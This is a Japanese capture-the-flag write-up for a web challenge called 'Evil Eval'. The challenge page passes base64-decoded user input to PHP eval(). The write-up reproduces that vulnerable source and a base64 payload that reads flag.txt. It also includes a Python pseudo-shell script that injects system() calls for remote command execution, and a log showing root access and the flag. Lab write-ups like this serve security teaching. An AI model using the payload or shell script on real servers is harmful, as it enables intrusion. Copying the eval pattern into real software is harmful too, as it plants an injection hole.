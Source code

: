 # Evil Eval:Web:XXXXpts
シーザー暗号の次は, base64をデコードするページを実装したらしい。  
とはいえ, この実装ってあまり良くないんじゃ......  
flag.txtが同じディレクトリにあるらしいから, それを読みだしてこの実装の危険性を教えてあげて。  
[http://34.82.49.144:3337/](http://34.82.49.144:3337/)  
[show.php](show.php)  

# Solution
URLにアクセスするとbase64をデコードしてくれるサイトのようだ。  
base64 decoder  
[site.png](site/site.png)  
`U2F0b2tp`を入力すると`http://34.82.49.144:3337/show.php?data=U2F0b2tp`へリダイレクトし、以下のエラーと結果が表示された。  
![error.png](images/error.png)  
evalを呼んでいるらしい。  
ソースが配布されているので見ると、以下のようになっている。  
```php
<?php
$result = "";
    if (isset($_GET['data'])) {
        $data = $_GET['data'];
        $raw = base64_decode($data);
        eval('$result = ' . $raw . ';');
    }
?>
<html>
<head>
    <meta charset="utf-8">
    <title>result</title>
</head>
<body>
    <h1>結果</h1>
    <p><?= $result ?></p>
</body>
</html>
```
eval内でflag.txtを読み出してやればよい。  
`fgets(fopen('flag.txt','r'))`をbase64エンコードした`ZmdldHMoZm9wZW4oJ2ZsYWcudHh0JywncicpKQ==`を渡す。  
flag  
[flag.png](site/flag.png)  
flagが表示された。  
別解としては、`http://34.82.49.144:3337/flag.txt`にアクセスしてもflagが見えていた。  
1st bloodで暇だったので、以下のように疑似シェルを作ってflag.txtを読み出してみた。  
```python:satokishell.py
# -*- coding: utf-8 -*-
import requests
import base64
import re

while True:
    cmd = input("(>3<)$ ").encode("utf-8")
    data = base64.b64encode(b"system('"+cmd+b"')").decode("utf-8")
    res = requests.get("http://34.82.49.144:3337/show.php?data="+data)
    res = re.sub("<html>\n<head>\n<meta charset=\"utf-8\">\n<title>result</title>\n</head>\n<body>\n<h1>結果</h1>\n<p>.*</p>\n</body>\n</html>", "", res.text)
    res = (res+"\n").replace("\n\n", "\n")
    print(res, end="")
```
実行する。  
```bash
$ ls
satokishell.py
$ python satokishell.py
(>3<)$ ls
flag.txt
index.php
show.php
(>3<)$ cat flag.txt
taskctf{eval_1s_b4d_h4bit}
(>3<)$ uname -a
Linux 1f2f79acd76f 4.19.0-12-cloud-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64 GNU/Linux
(>3<)$ whoami
root
```
rootだった(゜Д゜)。  

## taskctf{eval_1s_b4d_h4bit}